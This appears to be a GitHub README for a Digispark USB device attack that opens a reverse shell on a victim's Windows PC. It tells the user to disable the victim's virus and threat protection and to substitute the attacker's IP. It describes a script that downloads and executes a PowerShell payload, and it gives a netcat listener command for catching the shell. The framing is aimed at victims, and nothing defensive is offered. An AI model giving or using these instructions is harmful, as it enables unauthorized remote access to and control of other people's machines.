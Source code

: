 # Digispark-reverseshell
how to create a revershell with digispark ,
in the place of given ip in line change it to your ip , 
turn of the virus and threat protection in victims pc .
This script downloads and executes a powershell script efectively opening up a reverse shell in less than 30 seconds. 
// This script credits to Ethical Hacking youtube channel -- https://www.youtube.com/channel/UCYujGFwVKJbiweT0kd6CwLg
// This script contains ip address of 172.17.45.102 , change it to the hackers ip
// 87 behind the ip is the port . You can change it to your desire in both the script here and the hackers opening port
// enter the above command as root user in linux ---  stty raw -echo; (stty size; cat) | nc -lvnp 87 -s 172.28.131.38  --- (-s here is ip ) behind -lvnp is the port 

